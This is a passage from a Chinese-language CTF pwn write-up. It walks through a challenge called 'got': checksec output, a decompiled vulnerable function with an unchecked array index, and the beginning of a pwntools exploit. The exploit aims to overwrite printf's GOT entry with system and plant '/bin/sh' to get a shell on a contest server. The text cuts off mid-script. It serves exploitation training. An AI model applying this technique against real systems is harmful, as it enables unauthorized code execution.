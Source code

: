 ​	可以看到,我们通过往payload里塞满了`backdoor`的地址的方式,直接砸穿了卡池.

​	什么?你问运气怎么来?

​	相信概率论,多尝试几次,总有一次它会站在你这边.

​	那么在三次尝试后,成功打通

#### 2:got

​	拿到题目,checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

​	只有RELRO没开全(开全了就没法做了)

​	那么让我们看看题目:

```c++
unsigned __int64 vuln()
{
  int v1; // [rsp+0h] [rbp-10h] BYREF
  int i; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Another array in the bss");
  puts("Only two tiems to change the arrary");
  for ( i = 0; i <= 1; ++i )
  {
    puts("which one do you want to change:");
    v1 = 0;
    __isoc99_scanf("%d", &v1);
    puts("input the content:");
    read(0, &s[8 * v1], 8uLL);
    putchar(10);
  }
  printf("hello");
  return __readfsqword(0x28u) ^ v3;
}
```

​	可以看到,我们有两次改写内存的机会.那么我们联系题目,得到以下思路:第一次将hello替换为`/bin/sh`,第二次将`printf()`的`got`表改写为`system()`的.

​	那么题解如下:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
#libc=ELF("./libc-2.27.so")
printf_got=0x201038
s_add=0x201080
sys_plt=b'\xD0\x07'
r=remote("contest.ctf.nefu.edu.cn",33831)

#r=process("./pwn")
#gdb.attach(r)
#pause()

r.recvuntil("change:")
r.sendline("0")
r.recvuntil("content:")
r.send("/bin/sh\x00")
```